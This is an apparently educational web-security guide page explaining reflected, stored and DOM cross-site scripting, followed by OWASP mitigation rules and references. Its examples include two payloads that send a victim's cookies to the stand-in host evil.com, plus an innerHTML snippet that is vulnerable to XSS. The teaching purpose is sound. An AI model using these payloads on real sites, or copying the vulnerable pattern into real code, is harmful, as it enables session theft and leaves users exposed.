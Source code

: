 ```yaml
---
name: Cross-site scripting (XSS)
menu: Attacks explained
route: /attacks_explained/cross-site_scripting_xss
---
```


# Cross-site scripting (XSS)


## The Attack

<iframe width="100%" height="450"
src="https://www.youtube.com/embed/L5l9lSnNMxg">
</iframe>



## Reflected XSS

![Reflected XSS sample workflow](../../public/rxss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/reflected-cross-site-scripting-r-xss-b06c3e8d638a)_

### Keys

- The Attack is focused on the user input like crafted urls with mailicious payload.

### Example

It is very simple to add a malicious payload in a vulnerable website link.

```
http://website.com/search?keyword=<script>window.location='http://evil.com/?c='+document.cookie</script>
```

The victim will open this link and will be redirected to a malicious site with the cookie content in the URL.

Inside the malicious code we can add extra payloads like (ajax calls... )


## persistent XSS


![p-XSS sample workflow](../../public/pxss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/persistent-cross-site-scripting-p-xss-557c70377554)_

### Keys

Also known as stored XSS. The malicious script comes from the website's database, so this attack requires few steps to succeed.

- In the first step the attacker will add a malicious payload to the server (so it will be stored).
- Later on the victims will access to the site and the malicious payload will be downloaded together with the legitimate content.

This attack can lead to Cookie theft, KeyLogging, Phishing...

### Example

The attacker adds a malicious payload in the comments section of the site.

```
POST "http://website.com/blog/post-1/comment", body{"<script>window.location='http://evil.com/?c='+document.cookie</script>}
```

Any user that visits the website will be vulnerable once this malicious comment is loaded.


## DOM XSS


![DOM-XSS sample workflow](../../public/dom_xss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)_

### Keys 

If the attacker controls any input field value, they can easily add malicious values:

```js
const search = document.getElementById('search').value;
document.getElementById('results').innerHTML = `You searched for: ${search}`;
```

```
You searched for: <img src=error onerror='/* Evil payload */'>
```

### Notable incidents

- [The Telegraph | TweetDeck hack hits BBC and White House accounts](https://www.telegraph.co.uk/technology/twitter/10894635/BBC-and-White-House-accounts-in-TweetDeck-hack.html)
- [VICE | The MySpace Worm that Changed the Internet Forever](https://www.vice.com/en_us/article/wnjwb4/the-myspace-worm-that-changed-the-internet-forever)


## The solution

There are no definitive solutions to avoid this attack but it can be highly mitigated.

## Mitigation

### [Keys from OWASP Cheat sheets for XSS](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

- 0 - Never Insert Untrusted Data Except in Allowed Locations
- 1 - HTML Escape Before Inserting Untrusted Data into HTML Element Content
- 2 - Attribute Escape Before Inserting Untrusted Data into HTML Common Attributes
- 3 - JavaScript Escape Before Inserting Untrusted Data into JavaScript Data Values
- 3.1 - HTML escape JSON values in an HTML context and read the data with `JSON.parse`
- 4 - CSS Escape And Strictly Validate Before Inserting Untrusted Data into HTML Style Property Values
- 5 - URL Escape Before Inserting Untrusted Data into HTML URL Parameter Values
- 6 - Sanitize HTML Markup with a Library Designed for the Job
- 7 - Avoid JavaScript URL's


### [Keys from OWASP Cheat sheets for DOM XSS](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)

- 1 - HTML Escape then JavaScript Escape Before Inserting Untrusted Data into HTML Subcontext within the Execution Context
- 2 - JavaScript Escape Before Inserting Untrusted Data into HTML Attribute Subcontext within the Execution Context
- 3 - Be Careful when Inserting Untrusted Data into the Event Handler and JavaScript code Subcontexts within an Execution Context
- 4 - JavaScript Escape Before Inserting Untrusted Data into the CSS Attribute Subcontext within the Execution Context
- 5 - URL Escape then JavaScript Escape Before Inserting Untrusted Data into URL Attribute Subcontext within the Execution Context
- 6 - Populate the DOM using safe JavaScript functions or properties
- 7 - Fixing DOM Cross-site Scripting Vulnerabilities


### Other
- The [Recommendations for HTTP Headers in this guide](/http_headers/)
- The [Best practices for Express in this guide](/best_practices/express)
- The [Best practices for React in this guide](/best_practices/react)



### Refs
- [ckarande | Top Overlooked Security Threats to Node.js Web Applications](https://speakerdeck.com/ckarande/top-overlooked-security-threats-to-node-dot-js-web-applications?slide=24)
- [Scott Smith | Cross Site Scripting (XSS)](http://scottksmith.com/blog/2015/06/22/secure-node-apps-against-owasp-top-10-cross-site-scripting/)
- [portswigger | Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)
- [Medium | Persistent Cross Site Scripting (p-XSS)](https://medium.com/iocscan/persistent-cross-site-scripting-p-xss-557c70377554)
- [Medium | DOM-Based Cross Site Scripting (DOM-XSS)](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)
- [Medium | Reflected Cross Site Scripting (r-XSS)](https://medium.com/iocscan/reflected-cross-site-scripting-r-xss-b06c3e8d638a)
- [Computerphile | Cracking Websites with Cross Site Scripting](https://www.youtube.com/watch?v=L5l9lSnNMxg)
